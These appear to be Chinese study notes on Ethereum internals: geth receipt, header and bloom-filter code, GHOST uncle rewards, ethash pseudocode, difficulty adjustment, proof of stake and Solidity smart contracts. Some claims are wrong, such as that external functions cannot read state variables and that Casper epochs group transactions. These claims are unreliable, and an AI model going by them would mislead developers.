// Trie represents a Merkle Patricia Trie. Use New to create a trie that operates
// on top of a node database. During a commit operation, the trie collects all
// modified nodes into a set for return. After committing, the trie becomes
// unusable, and callers must recreate it with the new root based on the updated
// trie database.
//
// Trie is not safe for concurrent use.
type Trie struct {
root node
owner common.Hash
// Flag whether the commit operation is already performed. If so the
// trie is not usable(latest states is invisible).
committed bool
// Keep track of the number leaves which have been inserted since the last
// hashing operation. This number will not directly map to the number of
// actually unhashed nodes.
unhashed int
// uncommitted is the number of updates since last commit.
uncommitted int
// reader is the handler trie can retrieve nodes from.
reader *trieReader
// tracer is the tool to track the trie changes.
tracer *tracer
}
Bloom
在receipt.go里，收据树的数据结构，其中Bloom是根据Logs产生出来的
// Receipt represents the results of a transaction.
type Receipt struct {
// Consensus fields: These fields are defined by the Yellow Paper
Type uint8 `json:"type,omitempty"`
PostState []byte `json:"root"`
Status uint64 `json:"status"`
CumulativeGasUsed uint64 `json:"cumulativeGasUsed" gencodec:"required"`
Bloom Bloom `json:"logsBloom" gencodec:"required"`
Logs []*Log `json:"logs" gencodec:"required"`
// Implementation fields: These fields are added by geth when processing a transaction.
TxHash common.Hash `json:"transactionHash" gencodec:"required"`
ContractAddress common.Address `json:"contractAddress"`
GasUsed uint64 `json:"gasUsed" gencodec:"required"`
EffectiveGasPrice *big.Int `json:"effectiveGasPrice"` // required, but tag omitted for backwards compatibility
BlobGasUsed uint64 `json:"blobGasUsed,omitempty"`
BlobGasPrice *big.Int `json:"blobGasPrice,omitempty"`
// Inclusion information: These fields provide information about the inclusion of the
// transaction corresponding to this receipt.
BlockHash common.Hash `json:"blockHash,omitempty"`
BlockNumber *big.Int `json:"blockNumber,omitempty"`
TransactionIndex uint `json:"transactionIndex"`
}
在block.go里，块头的数据结构，其中的Bloom由每个收据的bloom filter合并得到
// Header represents a block header in the Ethereum blockchain.
type Header struct {
ParentHash common.Hash `json:"parentHash" gencodec:"required"`
UncleHash common.Hash `json:"sha3Uncles" gencodec:"required"`
Coinbase common.Address `json:"miner"`
Root common.Hash `json:"stateRoot" gencodec:"required"`
TxHash common.Hash `json:"transactionsRoot" gencodec:"required"`
ReceiptHash common.Hash `json:"receiptsRoot" gencodec:"required"`
Bloom Bloom `json:"logsBloom" gencodec:"required"`
Difficulty *big.Int `json:"difficulty" gencodec:"required"`
Number *big.Int `json:"number" gencodec:"required"`
GasLimit uint64 `json:"gasLimit" gencodec:"required"`
GasUsed uint64 `json:"gasUsed" gencodec:"required"`
Time uint64 `json:"timestamp" gencodec:"required"`
Extra []byte `json:"extraData" gencodec:"required"`
MixDigest common.Hash `json:"mixHash"`
Nonce BlockNonce `json:"nonce"`
// BaseFee was added by EIP-1559 and is ignored in legacy headers.
BaseFee *big.Int `json:"baseFeePerGas" rlp:"optional"`
// WithdrawalsHash was added by EIP-4895 and is ignored in legacy headers.
WithdrawalsHash *common.Hash `json:"withdrawalsRoot" rlp:"optional"`
// BlobGasUsed was added by EIP-4844 and is ignored in legacy headers.
BlobGasUsed *uint64 `json:"blobGasUsed" rlp:"optional"`
// ExcessBlobGas was added by EIP-4844 and is ignored in legacy headers.
ExcessBlobGas *uint64 `json:"excessBlobGas" rlp:"optional"`
// ParentBeaconRoot was added by EIP-4788 and is ignored in legacy headers.
ParentBeaconRoot *common.Hash `json:"parentBeaconBlockRoot" rlp:"optional"`
// RequestsHash was added by EIP-7685 and is ignored in legacy headers.
RequestsHash *common.Hash `json:"requestsHash" rlp:"optional"`
}
在执行NewBlock创建收据树时，调用了MergeBloom合并或创建Block Header里的Bloom域，这个Bloom Filter由这个块中所有receipts的Bloom Filter组合得到。在bloom9.go里，创建或合并Bloom的代码：
// CreateBloom creates a bloom filter out of the give Receipt (+Logs)
func CreateBloom(receipt *Receipt) Bloom {
var (
bin Bloom
buf [6]byte
)
for _, log := range receipt.Logs {
bin.AddWithBuffer(log.Address.Bytes(), &buf)
for _, b := range log.Topics {
bin.AddWithBuffer(b[:], &buf)
}
}
return bin
}
// MergeBloom merges the precomputed bloom filters in the Receipts without
// recalculating them. It assumes that each receipt’s Bloom field is already
// correctly populated.
func MergeBloom(receipts Receipts) Bloom {
var bin Bloom
for _, receipt := range receipts {
if len(receipt.Logs) != 0 {
bl := receipt.Bloom.Bytes()
for i := range bin {
bin[i] |= bl[i]
}
}
}
return bin
}
在graphql.go里，由log生成bloom的代码（？，改了，存疑）：
func (b *Block) LogsBloom(ctx context.Context) (hexutil.Bytes, error) {
header, err := b.resolveHeader(ctx)
if err != nil {
return hexutil.Bytes{}, err
}
return header.Bloom.Bytes(), nil
}
在bloom9.go里，由某种位运算生成bloom：
// Bloom9 returns the bloom filter for the given data
func Bloom9(data []byte) []byte {
var b Bloom
b.SetBytes(data)
return b.Bytes()
}
在bloom9.go里，由BloomLookup负责查询某元素是否在bloom里：
// BloomLookup is a convenience-method to check presence in the bloom filter
func BloomLookup(bin Bloom, topic bytesBacked) bool {
return bin.Test(topic.Bytes())
}
05 GHOST
共识机制，出块时间15秒，提高了throughput，但是临时性的分叉成为常态

1. 叔父区块
mining centralization
大型矿池更容易获得记账权，更容易成为主链，产生centralization bias
为了避免大型矿池获得不成比例的优势，引入GHOST协议
GHOST协议最初版本
被废弃的区块也获得一定奖励
叔父区块获得7/8的出块奖励（由5调整为3），包含叔父区块的主链上的区块，每包含一个叔父区块多获得1/32的出块奖励，最多包含2个叔父区块
如何在挖矿过程中确定叔父区块？
叔父区块数组包含在block header里，当正在挖的区块发现有其他区块分叉成为兄弟时，如果想包含它成为叔父区块，就调整header重新算nonce，因为挖矿过程是无记忆性的，所以不会有影响
问题
①如果有三个或以上的叔叔怎么办？②主链上发布合法区块时没听到新发布的叔父区块？③主链上的合法区块故意不包含叔父区块？
GHOST协议改进版本
uncle reward叔父区块奖励
state fork临时性分叉
规定只有最近7代的叔父区块能获得奖励，奖励值为7/8->6/8->5/8->4/8->3/8->2/8递减
①防止包含过远之前的叔父区块。②鼓励出现临时性分叉后立刻合并叔父区块，得到最多奖励
两种奖励
①静态奖励：block reward，不会递减保持在3个
②动态奖励：gas fee，类似比特币的交易费
叔父区块只获得静态奖励，不获得交易费，交易也不执行，但是要检查合法性，需要符合挖矿难度要求
叔父区块的判定
叔父区块的奖励只给分叉后的第一个区块，超过一个的链不能分到任何奖励
原因：防止forking attack的成本变低。如果超过1个区块的forking链也能获得uncle reward，那么假如forking的链超过主链成为最长合法链attack成功；没有成功至少获得了uncle reward。这是不合理的
2. 真实例子
上图是叔父区块的情况，第一列block height是区块的编号，第二列uncle number是叔父区块的编号，对应不同的叔父区块的叔父奖励
Block Reward包含了3（出块奖励）+0.16（汽油费）+0.09375（引入叔父区块的奖励）
06 挖矿
block chain is secured by mining
bug bounty？bounty hunter赏金猎人
中本聪的期望：one cpu，one vote
1. ASIC resistance：memory hard mining puzzle
LiteCoin
使用基于scrypt的加密算法，出块间隔2.5分钟
开一个大数组，从seed开始取哈希后依次填入数组，后一个是前一个的哈希
按照伪随机顺序读取数组中的值
有一些做法只存储奇数位或偶数位的值，减少一部分空间复杂度提高一部分时间复杂度，叫time-memory tradeoff
好处：对挖矿来说是memory hard
坏处：对轻节点来说也是memory hard
区块链原则：difficult to solve，but easy to verify
为照顾轻节点，LiteCoin将数组大小设置为128K
结局：与最初宣传的ASIC resistance不符，128K的大小不足以对ASIC构成威胁。因为早期宣传得很成功，不像其他货币发行初期无人问津，一定程度上解决了数字货币冷启动的问题
ETH
以太坊用两个数组，起始16M的cache和起始1G的dataset DAG，cache和dataset会定期增长
流程：
①由seed计算哈希填充cache
②从cache中按规则随机读取256次，得出计算的结果填充到dataset
③重复②直到填满dataset
④根据block header和nonce的哈希，选取一个位置和它的下一个位置读取
⑤重复④若干次
2. ethash算法伪代码
生成cache
def mkcache(cache_size, seed):
o = [hash(seed)]
for i in range(1, cache_size):
o.append(hash(o[-1]))
return o
这个函数是通过seed计算出来cache的伪代码。
伪代码略去了原来代码中对cache元素进一步的处理，只展示原理，即cache中元素按序生成，每个元素产生时与上一个元素相关。
每隔30000个块会重新生成seed（对原来的seed求哈希值），并且利用新的seed生成新的cache。
cache的初始大小为16M，每隔30000个块重新生成时增大初始大小的1/128，即128K。
生成dataset
def calc_dataset_item(cache, i):
cache_size = cache.size
mix = hash(cache[i % cache_size] ^ i)
for j in range(256):
cache_index = get_int_from_item(mix)
mix = make_item(mix, cache[cache_index % cache_size])
return hash(mix)
这是通过cache来生成dataset中第i个元素的伪代码。
这个dataset叫作DAG，初始大小是1G，也是每隔30000个块更新，同时增大初始大小的1/128，即8M。
伪代码省略了大部分细节，展示原理：
先通过cache中的第i%cache_size个元素生成初始的mix，因为两个不同的dataset元素可能对应同一个cache中的元素，为了保证每个初始的mix都不同，注意到i也参与了哈希计算。
随后循环256次，每次通过get_int_from_item来根据当前的mix值求得下一个要访问的cache元素的下标，用这个cache元素和mix通过make_item求得新的mix值。注意到由于初始的mix值都不同，所以访问cache的序列也都是不同的。
最终返回mix的哈希值，得到第i个dataset中的元素。
多次调用这个函数，就可以得到完整的dataset。
def calc_dataset(full_size, cache):
return [calc_dataset_item(cache, i) for i in range(full_size)]
这个函数通过不断调用前边介绍的calc_dataset_item函数来依次生成dataset中全部full_size个元素。
挖矿和验证
def hashimoto_full(header, nonce, full_size, dataset):
mix = hash(header, nonce)
for i in range(64):
dataset_index = get_int_from_item(mix) % full_size
mix = make_item(mix, dataset[dataset_index])
mix = make_item(mix, dataset[dataset_index + 1])
return hash(mix)
def hashimoto_light(header, nonce, full_size, cache):
mix = hash(header, nonce)
for i in range(64):
dataset_index = get_int_from_item(mix) % full_size
mix = make_item(mix, calc_dataset_item(cache, dataset_index))
mix = make_item(mix, calc_dataset_item(cache, dataset_index + 1))
return hash(mix)
这个函数展示了ethash算法的puzzle：通过区块头、nonce以及DAG求出一个与target比较的值，矿工和轻节点使用的实现方法是不一样的。只用块头是因为方便轻节点只需要块头就能验证
伪代码略去了大部分细节，展示原理。
先通过header和nonce求出一个初始的mix，然后进入64次循环，根据当前的mix值求出要访问的dataset的元素的下标，然后根据这个下标访问dataset中两个连续的值。（思考题：这两个值相关吗？不相关）
最后返回mix的哈希值，用来和target比较。
注意到轻节点是临时计算出用到的dataset的元素，而矿工是直接访存，也就是必须在内存里存着这个1G的dataset，后边会分析这个的原因。
def mine(full_size, dataset, header, target):
nonce = random.randint(0, 2**64)
while hashimoto_full(header, nonce, full_size, dataset) > target:
nonce = (nonce + 1) % 2**64
return nonce
这是矿工挖矿的函数的伪代码，同样省略了一些细节，展示原理。
full_size指的是dataset的元素个数，dataset就是从cache生成的DAG，header是区块头，target就是挖矿的目标，我们需要调整nonce来使hashimoto_full的返回值小于等于target。
这里先随机初始化nonce，再一个个尝试nonce，直到得到的值小于target。
解释
cache_index = get_int_from_item(mix)
分析矿工需要保存整个dataset的原因：这句代码表明通过cache生成dataset的元素时，下一个用到的cache中的元素的位置是通过当前用到的cache的元素的值计算得到的，这样具体的访问顺序事先不可预知，满足伪随机性。
由于矿工需要验证非常多的nonce，如果每次都要从16M的cache中重新生成的话，那挖矿的效率就太低了，而且这里面有大量的重复计算：随机选取的dataset的元素中有很多是重复的，可能是之前尝试别的nonce时用过的。所以，矿工采取以空间换时间的策略，把整个dataset保存下来。轻节点由于只验证一个nonce，验证的时候就直接生成要用到的dataset中的元素就行了。
3. 真实情况
以太坊目前仍以GPU挖矿为主，起到一定的ASIC resistance
以太坊持续宣称自己要从PoW工作量证明转移到PoS权益证明
pre-mining预挖矿：预留一些币给早期开发者
pre-sale预出售：预先出售一部分以太币拉取风投
绝大部分ETH是预挖矿的
07 难度调整
1. 区块难度D(H)
整体
\[D(H)\equiv\begin{cases} D_0& \text{if }H_i=0 \\max(D_0,P(H)_{H_d}+x\times\delta_2)+\epsilon& \text{otherwise} \end{cases}\] \[\text{where } D_0\equiv131072\]参数：
- D(H)是本区块的难度，由基础部分P(H)Hd+x*δ2和难度炸弹部分ε相加得到。
- P(H)Hd为父区块的难度，每个区块的难度都是在父区块难度的基础上进行调整。
- x*δ2用于自适应调节出块难度，维持稳定的出块速度。
- 基础部分有下界，为最小值D0=131072。
- ε表示设定的难度炸弹。
自适应难度调整
\[x\equiv\lfloor\frac{P(H)_{H_d}}{2048}\rfloor\] \[\delta_2\equiv max(y-\lfloor\frac{H_s-P(H)_{H_s}}{9}\rfloor,-99)\]参数：
- X是调整的单位，δ2为调整的系数。
- y和父区块的uncle数有关。如果父区块中包括了uncle，则y为2，否则y为1。
- 父块包含uncle时难度会大一个单位，因为包含uncle时新发行的货币量大，需要适当提高难度以保持货币发行量稳定。
- 难度降低的上界设置为-99，主要是应对被黑客攻击或其他目前想不到的黑天鹅事件。
参数：
- Hs是本区块的时间戳，P(H)Hs是父区块的时间戳，均以秒为单位，并规定Hs>P(H)Hs。
- 该部分是稳定出块速度的最重要部分：出块时间过短则调大难度，出块时间过长则调小难度。
- 以父块不带uncle(y=1)示例
- 出块时间在[1,8]之间，出块时间过短，难度调大一个单位。
- 出块时间在[9,17]之间，出块时间可以接受，难度保持不变。
- 出块时间在[18,26]之间，出块时间过长，难度调小一个单位。
- ……
难度炸弹
- 为什么设置难度炸弹？
设置难度炸弹的原因是要降低迁移到PoS协议时发生fork的风险：到时挖矿难度非常大，所以矿工有意愿迁移到PoS协议。 \(\epsilon\equiv\lfloor2^{\lfloor H_i^{'}\div100000\rfloor-2}\rfloor\)
\[H_i^{'}\equiv max(H_i-3000000,0)\]参数：
- ε是2的指数函数，每十万个块扩大一倍，后期增长非常快，这就是难度“炸弹”的由来。
- Hi’称为fake block number，由真正的block number Hi减少三百万得到。这样做的原因是低估了PoS协议的开发难度，需要延长大概一年半的时间(EIP100)。
这个图显示了难度炸弹对挖矿难度的影响
四个阶段
- Metropolis又分为Byzantium和Constantinople两个子阶段。
- 难度炸弹的回调发生在Byzantium这个子阶段，在EIP(Ethereum Improvement Proposal)中决定，同时把block reward从5个ETH降为3个ETH。
EIP: Ethereum Improvement Proposal, BIP: Bitcoin Improvement Proposal
2. 统计图表
难度
Proof-of-Work mining on Ethereum ended with the Merge/Paris hard fork on Thursday, 15 September 2022.
出块时间
过滤掉了2025年5月23日一次43352秒的出块
最长合法链？最难合法链！
total difficulty最大的成为最长合法链
08 权益证明PoS
1. PoW浪费电
比特币
图表来源，单位TWh=Terawatt hours=10^12Wh，KWh=Kilowatt hours=10^3Wh
挖一个比特币大概需要消耗1000多度电
年总用电量在波兰之上泰国之下
以太坊
图表来源，到后面不挖矿了
权益证明的用电量非常少，即使用工作量证明挖一个ETH也只要70度左右的电
能耗差异原因
ETH出块时间短
耗电真的不好吗？
挖矿提供了一种把电能转化为钱的手段，比如偏远地区电能过剩很难存储，可以把这部分电能用来挖矿转化为钱
2. Proof of Stake原理
挖矿是必须的吗？
矿工挖矿=>获得出块奖励收益=>激励继续挖矿
收益多少=>挖出区块多少=>算力多少=>挖矿设备多少=>现实中的购买力
挖矿的收益由现实中的财力决定，不如根据投资的多少决定权益的分配，省去了算力的比拼
virtual mining虚拟挖矿
初始通常预留一部分货币，再出售一部分作为启动资金
权益证明优势
①省电
②区块链维护资源安全的来源是闭环
比特币的来源不是闭环的，是由外部通过美元购买矿机挖矿得到的。相比股市和大财团的体量，比特币不在一个数量级上。于是如果有现实中的大佬想要从外部搞垮比特币，只需要大量购买算力就好。对于采用PoW的AltCoin，在起始阶段容易受到Infanticide攻击，即被外力扼杀在摇篮里。基于PoS的货币不需要考虑外部环境的影响，假如有人想要搞垮以太坊，那么这个人必须大量买入权益，而这种行为是区块链内部的事情，并且短时间内大量买入会导致币价上涨，对权益人有利
PoS与PoW不互斥：持有权益越多挖矿难度越小，但是为保证不出现持有最多权益的人在算力上占绝对优势，为降低难度使用的stake会被锁定一段时间，称为Proof of Deposit
问题
两边下注nothing at stake
假如有人在分叉的两个链上面分别下注，被废弃的链上的stake不会被锁定
3. 以太坊中基于PoS的共识机制
Casper the Friendly Finality Gadget（FFG）
向以太坊缴纳一部分保证金，这些保证金立即被锁定，成为Validator
借用数据库系统two-phase commit（二段锁协议？）的概念，分为Prepare Message和Commit Message，每个Message要超过2/3的投票通过才算最终通过。将每100个交易划分为一个epoch执行two-phase commit
以太坊合并了两个提交阶段，并且将100个交易划分成前50个和后50个
Validator一段时间没有产生不良行为，就收回保证金；产生不良行为，比如一直不投票要扣掉一部分保证金，两边下注要扣掉所有保证金。Validator任期结束后会有一段时间锁定期，让其他人检举揭发。没收的保证金会直接销毁
包含在Finality中的交易会不会被推翻？
普通矿工无法推翻Finality，只有持有权益的人才有资格，并且需要至少三分之一的人两边下注。但是两边下注一旦被发现就会被没收全部保证金
过渡
以太坊的设想是通过挖矿获得的奖励越来越少，通过权益证明获得的奖励越来越多
以太坊为什么不直接使用PoS？因为基于PoW的加密货币体系很成熟，经受住了bug bounty的考验
据说已经暴死的加密货币EOS：DPOS：Delegated Proof of Stake
09 智能合约
- 智能合约是运行在区块链上的一段代码，代码的逻辑定义了合约的内容
- 智能合约的帐户保存了合约当前的运行状态
- balance:当前余额
- nonce:交易次数
- code:合约代码
- storage:存储，数据结构是一棵MPT
- Solidity是智能合约最常用的语言，语法上与JavaScript很接近
1. 组成
示例代码
这是一段简单的拍卖代码。Solidity是面向对象的编程语言，contract保留字类似于class。Solidity是强类型的编程语言
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.4;
contract SimpleAuction {
// Parameters of the auction. Times are either
// absolute unix timestamps (seconds since 1970-01-01)
// or time periods in seconds.
address payable public beneficiary;
uint public auctionEndTime;
// Current state of the auction.
address public highestBidder;
uint public highestBid;
// Allowed withdrawals of previous bids
mapping(address => uint) pendingReturns;
// Set to true at the end, disallows any change.
// By default initialized to `false`.
bool ended;
// Events that will be emitted on changes.
event HighestBidIncreased(address bidder, uint amount);
event AuctionEnded(address winner, uint amount);
// Errors that describe failures.
// The triple-slash comments are so-called natspec
// comments. They will be shown when the user
// is asked to confirm a transaction or
// when an error is displayed.
/// The auction has already ended.
error AuctionAlreadyEnded();
/// There is already a higher or equal bid.
error BidNotHighEnough(uint highestBid);
/// The auction has not ended yet.
error AuctionNotYetEnded();
/// The function auctionEnd has already been called.
error AuctionEndAlreadyCalled();
/// Create a simple auction with `biddingTime`
/// seconds bidding time on behalf of the
/// beneficiary address `beneficiaryAddress`.
constructor(
uint biddingTime,
address payable beneficiaryAddress
) {
beneficiary = beneficiaryAddress;
auctionEndTime = block.timestamp + biddingTime;
}
/// Bid on the auction with the value sent
/// together with this transaction.
/// The value will only be refunded if the
/// auction is not won.
function bid() external payable {
// No arguments are necessary, all
// information is already part of
// the transaction. The keyword payable
// is required for the function to
// be able to receive Ether.
// Revert the call if the bidding
// period is over.
if (block.timestamp > auctionEndTime)
revert AuctionAlreadyEnded();
// If the bid is not higher, send the
// Ether back (the revert statement
// will revert all changes in this
// function execution including
// it having received the Ether).
if (msg.value <= highestBid)
revert BidNotHighEnough(highestBid);
if (highestBid != 0) {
// Sending back the Ether by simply using
// highestBidder.send(highestBid) is a security risk
// because it could execute an untrusted contract.
// It is always safer to let the recipients
// withdraw their Ether themselves.
pendingReturns[highestBidder] += highestBid;
}
highestBidder = msg.sender;
highestBid = msg.value;
emit HighestBidIncreased(msg.sender, msg.value);
}
/// Withdraw a bid that was overbid.
function withdraw() external returns (bool) {
uint amount = pendingReturns[msg.sender];
if (amount > 0) {
// It is important to set this to zero because the recipient
// can call this function again as part of the receiving call
// before `send` returns.
pendingReturns[msg.sender] = 0;
// msg.sender is not of type `address payable` and must be
// explicitly converted using `payable(msg.sender)` in order
// use the member function `send()`.
if (!payable(msg.sender).send(amount)) {
// No need to call throw here, just reset the amount owing
pendingReturns[msg.sender] = amount;
return false;
}
}
return true;
}
/// End the auction and send the highest bid
/// to the beneficiary.
function auctionEnd() external {
// It is a good guideline to structure functions that interact
// with other contracts (i.e. they call functions or send Ether)
// into three phases:
// 1. checking conditions
// 2. performing actions (potentially changing conditions)
// 3. interacting with other contracts
// If these phases are mixed up, the other contract could call
// back into the current contract and modify the state or cause
// effects (ether payout) to be performed multiple times.
// If functions called internally include interaction with external
// contracts, they also have to be considered interaction with
// external contracts.
// 1. Conditions
if (block.timestamp < auctionEndTime)
revert AuctionNotYetEnded();
if (ended)
revert AuctionEndAlreadyCalled();
// 2. Effects
ended = true;
emit AuctionEnded(highestBidder, highestBid);
// 3. Interaction
beneficiary.transfer(highestBid);
}
}
这一行声明了使用solidity的版本
pragma solidity ^0.8.4;
这些是状态变量，Solidity的mapping有一些特殊的属性和限制，例如不能迭代访问所有键值对，只能通过键来访问对应的值
（但是好像没找到bidders数组）
// Parameters of the auction. Times are either
// absolute unix timestamps (seconds since 1970-01-01)
// or time periods in seconds.
address payable public beneficiary;
uint public auctionEndTime;
// Current state of the auction.
address public highestBidder;
uint public highestBid;
// Allowed withdrawals of previous bids
mapping(address => uint) pendingReturns;
// Set to true at the end, disallows any change.
// By default initialized to `false`.
bool ended;
这些是log记录，event用来记录事件日志
// Events that will be emitted on changes.
event HighestBidIncreased(address bidder, uint amount);
event AuctionEnded(address winner, uint amount);
这些是构造函数，仅在合约创建时调用一次
/// Create a simple auction with `biddingTime`
/// seconds bidding time on behalf of the
/// beneficiary address `beneficiaryAddress`.
constructor(
uint biddingTime,
address payable beneficiaryAddress
) {
beneficiary = beneficiaryAddress;
auctionEndTime = block.timestamp + biddingTime;
}
这些是成员函数，可以被一个外部账户或合约账户调用
/// Bid on the auction with the value sent
/// together with this transaction.
/// The value will only be refunded if the
/// auction is not won.
function bid() external payable {
// No arguments are necessary, all
// information is already part of
// the transaction. The keyword payable
// is required for the function to
// be able to receive Ether.
// Revert the call if the bidding
// period is over.
if (block.timestamp > auctionEndTime)
revert AuctionAlreadyEnded();
// If the bid is not higher, send the
// Ether back (the revert statement
// will revert all changes in this
// function execution including
// it having received the Ether).
if (msg.value <= highestBid)
revert BidNotHighEnough(highestBid);
if (highestBid != 0) {
// Sending back the Ether by simply using
// highestBidder.send(highestBid) is a security risk
// because it could execute an untrusted contract.
// It is always safer to let the recipients
// withdraw their Ether themselves.
pendingReturns[highestBidder] += highestBid;
}
highestBidder = msg.sender;
highestBid = msg.value;
emit HighestBidIncreased(msg.sender, msg.value);
}
/// Withdraw a bid that was overbid.
function withdraw() external returns (bool) {
uint amount = pendingReturns[msg.sender];
if (amount > 0) {
// It is important to set this to zero because the recipient
// can call this function again as part of the receiving call
// before `send` returns.
pendingReturns[msg.sender] = 0;
// msg.sender is not of type `address payable` and must be
// explicitly converted using `payable(msg.sender)` in order
// use the member function `send()`.
if (!payable(msg.sender).send(amount)) {
// No need to call throw here, just reset the amount owing
pendingReturns[msg.sender] = amount;
return false;
}
}
return true;
}
/// End the auction and send the highest bid
/// to the beneficiary.
function auctionEnd() external {
// It is a good guideline to structure functions that interact
// with other contracts (i.e. they call functions or send Ether)
// into three phases:
// 1. checking conditions
// 2. performing actions (potentially changing conditions)
// 3. interacting with other contracts
// If these phases are mixed up, the other contract could call
// back into the current contract and modify the state or cause
// effects (ether payout) to be performed multiple times.
// If functions called internally include interaction with external
// contracts, they also have to be considered interaction with
// external contracts.
// 1. Conditions
if (block.timestamp < auctionEndTime)
revert AuctionNotYetEnded();
if (ended)
revert AuctionEndAlreadyCalled();
// 2. Effects
ended = true;
emit AuctionEnded(highestBidder, highestBid);
// 3. Interaction
beneficiary.transfer(highestBid);
}
函数和变量有四种可见度标识符public、private、internal和external。
- public：public 是最高级别的可见度标识符，表示变量、函数或合约对内外部都可见。公共状态变量可以被任何人读取，并且公共函数可以被外部调用者调用。公共函数和状态变量的访问可以通过合约地址直接进行。
- private：private 是最低级别的可见度标识符，表示只有当前合约内的其他函数才能访问该变量或函数。私有状态变量只能在当前合约中访问，私有函数只能被当前合约的其他函数调用。私有状态变量和函数对外部调用者是不可见的。
- internal：internal 表示内部可见性，表示只有当前合约及其派生合约内的其他函数才能访问该变量或函数。内部状态变量和函数可以在当前合约及其派生合约中访问，但对外部调用者不可见。
- external：external 可以用于函数，表示该函数只能通过外部消息调用。外部函数只能被其他合约调用，而不能在当前合约内部直接调用。此外，外部函数不能访问合约的状态变量，只能通过参数和返回值进行数据交互。
如果没有显式指定变量的访问修饰符，则默认为internal，而internal关键字表示，它只对本合约和继承合约可见。
payable
合约账户能接受外部转账的话，必须标注成payable
例如：bid()函数需要出价人把出价的币转给智能合约
fallback()
function() public [payable] {
......
}
- 匿名函数，没有参数也没有返回值。
- 在两种情况下会被调用：
- 直接向一个合约地址转账而不加任何data
- 被调用的函数不存在
- 如果转账金额不是0，同样需要声明payable，否则会抛出异常。
2. 调用
外部账户调用智能合约
外部账户如何调用智能合约？创建一个交易，接收地址为要调用的那个智能合约的地址，data域填写要调用的函数及其参数的编码值
sender address是发起调用的账户地址，to contract address是被调用的合约的地址，tx data域写明了要调用的函数和参数
一个合约调用另一个合约
①直接调用（由外部账户调用B中的function，B再调用A中的function）
- 如果在执行a.foo()过程中抛出错误，则calAFooDirectly也抛出错误，本次调用全部回滚。
- ua为执行a.foo(“call foo directly”)的返回值
- 可以通过.gas()和 .value()调整提供的gas数量或提供一些ETH
contract A {
event LogcallFoo(string str);
function foo(string str) returns (uint){
emit LogcallFoo(str);
return 123;
}
}
contract B {
uint ua;
function callAFooDirectly(address addr) public{
A a = A(addr);
ua = a.foo("call foo directly");
}
}
②使用address类型的call()函数
- 第一个参数被编码成4 个字节，表示要调用的函数的签名
- 其它参数会被扩展到 32 字节，表示要调用函数的参数
- 下面的这个例子相当于A(addr).foo(“call foo by func call”)
- 返回一个布尔值表明了被调用的函数已经执行完毕(true)或者引发了一个 EVM 异常(false)，无法获取函数返回值
- 也可以通过.gas()和 .value()调整提供的gas数量或提供一些ETH
contract C{
function callAFooByCall(address addr) public returns (bool){
bytes4 funcsig = bytes4(keccak256("foo(string)"));
if (addr.call(funcsig,"call foo by func call"))
return true;
return false;
}
}
③代理调用delegatecall()
- 使用方法与call()相同，只是不能使用.value()
- 区别在于是否切换上下文
- call()切换到被调用的智能合约上下文中
- delegatecall()只使用给定地址的代码，其它属性(存储，余额等)都取自当前合约。delegatecall的目的是使用存储在另外一个合约中的库代码
3. 创建和运行
EVM
- 智能合约的代码写完后，要编译成bytecode
- 创建合约：外部帐户发起一个转账交易到0x0的地址
- 转账的金额是0，但是要支付汽油费
- 合约的代码放在data域里
- 智能合约运行在EVM(Ethereum VirtualMachine)上
- 以太坊是一个交易驱动的状态机
- 调用智能合约的交易发布到区块链上后，每个矿工都会执行这个交易，从当前状态确定性地转移到下一个状态
汽油费gas fee
防止有人发布大量报错的智能合约，造成Denial of Service攻击
- 智能合约是个Turing-complete Programming Model
- 出现死循环怎么办？Halting Problem停机问腿，NPC不可解
- 执行合约中的指令要收取汽油费，由发起交易的人来支付
type txdata struct {
AccountNonce uint64 json:"nonce" gencodec:"required"
Price *big.Int json:"gasPrice" gencodec:"required"
GasLimit uint64 json:"gas" gencodec:"required"
Recipient *common.Address json:"to" rlp:"nil"//nil means contract creation
Amount *big.Int json:"value" gencodec:"required"
Payload []byte json:"input" gencodec:"required"
- EVM中不同指令消耗的汽油费是不一样的
- 简单的指令很便宜，复杂的或者需要存储状态的指令就很贵
错误处理
- 智能合约中不存在自定义的try-catch结构
- 一旦遇到异常，除特殊情况外，本次执行操作全部回滚
- 可以抛出错误的语句：
- assert(bool condition):如果条件不满足就抛出——用于内部错误
- require(bool condition):如果条件不满足就抛掉——用于输入或者外部组件引起的错误。
function bid() public payable {
// 对于能接收以太币的函数，关键字 payable 是必须的。
// 拍卖尚未结束
require(now <= auctionEnd);
- revert():终止运行并回滚状态变动
嵌套调用
- 智能合约的执行具有原子性：执行过程中出现错误，会导致回滚
- 嵌套调用是指一个合约调用另一个合约中的函数
- 嵌套调用是否会触发连锁式的回滚？
- 如果被调用的合约执行过程中发生异常，会不会导致发起调用的这个合约也跟着一起回滚？
- 有些调用方法会引起连锁式的回滚，有些则不会
- 一个合约直接向一个合约帐户里转账，没有指明调用哪个函数，仍然会引起嵌套调用
先执行智能合约还是先挖矿？
以太坊三棵树维护在全节点本地
汽油费的扣除：全节点扣除本地数据结构中发起交易人账户的汽油费
答案：先执行智能合约再挖矿
原因：必须先执行智能合约完成所有交易，更改三棵树的状态，才能确定header里面三棵树的根哈希值，才能在区块链上发布合法区块
没挖出合法区块的矿工无法得到任何补偿，无法得到任何汽油费。没挖出区块的最佳策略是立刻切换到最长合法链继续挖而不是成为叔父区块
节点接收到新的区块能不能跳过验证直接开挖？
不能。必须执行完所有交易和智能合约才能把三棵树更新到合法状态，由于header只记录三棵树的根哈希值，所以必须要在本地执行一遍
发布到区块链上的交易是否都是成功执行的？
不全是。执行失败的智能合约也要发布到区块链上才能获得汽油费
Receipt收据树
Status域记录了交易成败的信息
//Receipt represents the results of a transaction.
type Receipt struct {
// Consensus fields
Poststate []byte `json:"root"`
Status uint64 `json:"status"`
CumulativeGasUsed uint64 `json:"cumulativeGasused" gencodec:"required"`
Bloom Bloom `json:"logsBloom" gencodec:"required"`
Logs []*Log `json:"logs" gencodec:"required"`
// Implementation fields (don't reorder!)
TxHash common.Hash `json:"transactionHash" gencodec:"required"`
ContractAddress common.Address `json:"contractAddress"`
GasUsed uint64 `json:"gasUsed" gencodec:"required"`
}
智能合约支持多核吗？
不支持。以太坊是基于交易的状态机，输入输出必须是确定的。如果多线程访问内存的顺序不同，结果有可能不同，不是确定的
其他的操作，比如产生随机数，只能产生伪随机数
智能合约可以获得的区块信息
- block.blockhash(uint blockNumber) returns (bytes32):给定区块的哈希一仅对最近的 256 个区块有效而不包括当前区块
- block.coinbase(address):挖出当前区块的矿工地址
- block.difficulty(uint):当前区块难度
- block.gaslimit(uint): 当前区块 gas 限额
